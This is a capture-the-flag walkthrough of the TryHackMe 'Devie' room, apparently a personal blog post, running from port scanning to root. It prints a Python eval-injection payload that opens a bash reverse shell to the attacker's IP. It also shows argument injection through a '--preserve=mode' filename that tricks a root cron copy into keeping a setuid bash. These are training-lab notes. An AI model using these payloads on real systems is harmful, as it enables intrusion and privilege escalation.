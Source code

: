 ```yaml
---
title: "Intranet TryHackMe"
collection: publications
permalink: /publication/devie
excerpt: 'This is a subscriber only room from TryHackMe'
date: 2023-06-28
venue: '06-28'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
#citation: 'Your Name, You. (2009). &quot;Paper Title Number 1.&quot; <i>Journal 1</i>. 1(1).'
---
```


![header](/images/devie-header.png)

**LINK :** [Devie](https://tryhackme.com/room/devie)

# Enumeration : 

* Let's start by looking for open ports.

```console
└─# nmap -sC -sV -T4 10.10.152.117
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-27 09:51 EDT
Nmap scan report for 10.10.152.117
Host is up (0.10s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c9727bf5b62ed5995614de43093a6492 (RSA)
|   256 0b75585ab9f75ba9ffefad71c1090a33 (ECDSA)
|_  256 7df9c9f867f9954e016823a47b8c9830 (ED25519)
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.1.2 Python/3.8.10
|     Date: Tue, 27 Jun 2023 13:51:28 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 4486
|     Connection: close
```
* We have 2 open ports, ``ssh`` running on port ``22`` and a web application running on port ``5000``
* Visiting ``http://X.X.X.X:5000``, we see a Math Formulas page.

![devie1](/images/devie1.png)

* You can see below a link to download the code source.

![devie2](/images/devie2.png)

* We have 4 python scripts.
* The main function is in ``app.py``, while i was reading the script, i noticed that the ``bisect`` function uses ``eval`` which is vulnerable to command injection.

![devie3](/images/devie3.png)

> [Hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes)

* All we need to do now is to inject a payload into the ``xa`` parameter of the ``bisect`` function, for that i will use ``burp suite``.

![devie4](/images/devie4.png)

# Flag 1 :

* As you can see we have to add ``#`` at the end of the injected payload to comment out the rest of the expression.

```console
__import__('os').system('/bin/bash -c \'bash+-i+>%26+/dev/tcp/<your-ip-address>/4444+0>%261\'')
```

> Dont forget to add your ip address and url-encode the payload.

![devie5](/images/devie5.png)

* Before send the request, you should open a netcat listener.

```console
nc -lvnp 4444
```

![devie6](/images/devie6.png)

# Flag 2 :

* I found a note in Bruce's home directory 

![devie7](/images/devie7.png)

* So as you can see Gordon shares his encoded XOR password.

* Let's see our sudo privileges

![devie8](/images/devie8.png)

* So as you can see we can run ``encrypt.py`` as ``gordon```

![devie9](/images/devie9.png)

* So the idea here is to enter ``hammertime4444`` as password and grab the output which XORed,base64-encoded password, then pass it to [Cyberchef](https://gchq.github.io/CyberChef/), As a recipe we will use ``from base64`` and ``XOR`` with the password entered using ``encrypt.py`` as the key.

![devie10](/images/devie10.png)

* [4] is the key

* Now we have the key used in the XOR operation.

> The special thing about ``XOR`` is because we know the initial and final value of the password, we can extract the key used in the XOR operation.

* Now it's time to decode the encoded string from Gordan's note using the key we found.

![devie11](/images/devie11.png)

* Switch user to ``Gordon`` and get your 2nd flag.

![devie12](/images/devie12.png)

> The password works also for ``SSH``.

# Flag 3 :

* We found a ``reports`` and ``backups`` folders which seems to be copies of each others with the copied files stored in the ``backups`` folder.

![devie13](/images/devie13.png)

* I spent a lot of times trying to figure out what's the next step until i noticed that the time of backups directory files changes every minutes and the ownership of these files is ``root`` so a backup job is most likely running as ``root``.

* It's time to use ``pspy`` to snoop on processes without need for root permissions.

> [Pspy](https://github.com/DominicBreuker/pspy)

![devie14](/images/devie14.png)

* As you can see there is a ``backup`` script that get executed every minute, let's see what this script is used for.

![devie15](/images/devie15.png)

* If we put any binary into ``reports`` folder, it will be copied to ``backups`` folder with ``root`` ownership.
* My idea is to copy ``/bin/bash`` to ``reports`` folder and assign it the **setuid bit**, but the problem is that privilege will not be copied by ``cp`` command by default, fortunately we can create a file named ``--preserve=mode`` so the permission is maintained when it gets copied to the ``backups`` folder.

> [Preservation mode](https://www.makeuseof.com/preserve-file-permissions-in-linux-while-copying-them/)

![devie16](/images/devie16.png)

![devie17](/images/devie17.png)

* We wait one minute for the cron to execute, change directory to ``backups`` folder and you should see the ``bash`` binary with **setuid bit**.

![devie18](/images/devie8.png)

* Execute this command and get the root flag.

```console
./bash -p
```

![devie19](/images/devie19.png)